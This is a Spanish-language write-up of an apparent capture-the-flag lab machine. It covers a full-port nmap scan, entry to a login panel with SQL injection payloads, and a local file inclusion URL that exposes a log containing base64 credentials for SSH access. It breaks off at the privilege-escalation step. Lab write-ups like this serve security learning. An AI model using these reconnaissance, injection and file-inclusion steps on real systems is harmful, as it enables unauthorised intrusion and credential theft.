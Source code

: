 # Info
## IP Víctima
```
172.17.0.2
```
## Usuarios
### Albert
```
albert
```
```
NGxiM3J0MTIz
```
# Writeup
## Recon
Comenzamos por lanzar el siguiente comando:
```bash
nmap -p 0-65535 --open -T5 -A -sT -Pn -n 172.17.0.2 -oX nmap_TCP.xml && xsltproc nmap_TCP.xml -o nmap_TCP.html && open nmap_TCP.html &>/dev/null & disown
```
Con él, la idea es hacer un escaneo de todos los puertos abiertos en la máquina víctima, de manera agresiva e identificando versiones de los servicios. Obtenemos el siguiente output del escaneo en cuestión
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b4:a8:42:e7:2b:2f:7a:f9:50:bd:6d:31:8e:36:54:7b (ECDSA)
|_  256 c0:ff:28:31:a3:0b:1a:3d:c3:5f:83:1b:3c:44:28:32 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Login Panel
|_Requested resource was login.php
|_http-server-header: Apache/2.4.58 (Ubuntu)
```
Vemos un puerto 22 corriendo SSH y un servidor HTTP que en principio debería estar sirviendo un panel de login. Al visitar la página me encuentro con solo un formulario de login, a primera vista no veo nada raro en el código fuente, por lo que voy a lanzar un fuzzeo en busca de directorios ocultos y otra información que pueda ser relevante mientras voy probando cosas en el formulario como credenciales por defecto comunes, inyecciones y demás.
Probando SQLi con [el repo de payloadbox](https://github.com/payloadbox) en el campo de password entro al panel de administrador al primer intento. Al revisar el código me encuentro con la siguiente nota:
```html
<!-- dev note: remember to secure logs.txt path before deploy -->
```
## Exploit
Del escaneo previo había encontrado la ruta /logs, de manera que introduzco la URL http://172.17.0.2/index.php?page=/logs/logs.txt y me encuentro con lo estos logs:
```
[2024-03-29 12:04:12] ERROR: Login failed for user 'root' [2024-03-29 12:04:12] DEBUG: Trying password 'YWRtaW4xMjM=' [2024-03-29 12:04:13] ERROR: Login failed for user 'admin' [2024-03-29 12:04:14] DEBUG: Trying password 'dGVzdDEyMw==' [2024-03-29 12:04:16] ERROR: Login failed for user 'test' [2024-03-29 12:04:18] DEBUG: Login failed from IP 10.10.14.8 [2024-03-29 12:04:19] DEBUG: Login failed from IP 10.10.14.9 [2024-03-29 12:04:20] DEBUG: Login failed from IP 10.10.14.10 [2024-03-29 12:04:21] DEBUG: Login failed from IP 10.10.14.11 [2024-03-29 12:04:22] WARNING: Too many login attempts [2024-03-29 12:04:23] ERROR: Login attempt for user 'albert' [2024-03-29 12:04:24] DEBUG: Trying password 'NGxiM3J0MTIz' [2024-03-29 12:04:25] SUCCESS: Auth success for user 'albert' [2024-03-29 12:04:26] DEBUG: Session token issued: 38b2fdcbffe78b9989f3e [2024-03-29 12:04:27] DEBUG: SSH connection established from 10.10.14.8 [2024-03-29 12:04:28] DEBUG: User 'albert' added to sudo group [2024-03-29 12:04:29] DEBUG: File accessed: /var/www/html/index.php?page=welcome [2024-03-29 12:04:30] DEBUG: File accessed: /etc/passwd [2024-03-29 12:04:31] DEBUG: File accessed: /var/log/auth.log [2024-03-29 12:04:32] DEBUG: File accessed: /var/www/html/login.php [2024-03-29 12:04:33] DEBUG: File accessed: /var/www/html/logs/logs.txt [2024-03-29 12:04:34] WARNING: Potential exposure of file logs.txt [2024-03-29 12:04:35] WARNING: logs.txt contains sensitive authentication data [2024-03-29 12:04:36] [!!!] SECURITY ALERT: logs/logs.txt is PUBLICLY EXPOSED [2024-03-29 12:04:37] [!!!] Use this file with caution credentials may be compromised
```
El inicio de sesión del usuario Albert con su respectiva contraseña están expuestos en este archivo, por lo que ya podemos entrar mediante ssh a la máquina víctima.
## Post
El usuario en Alberto no tiene sudo
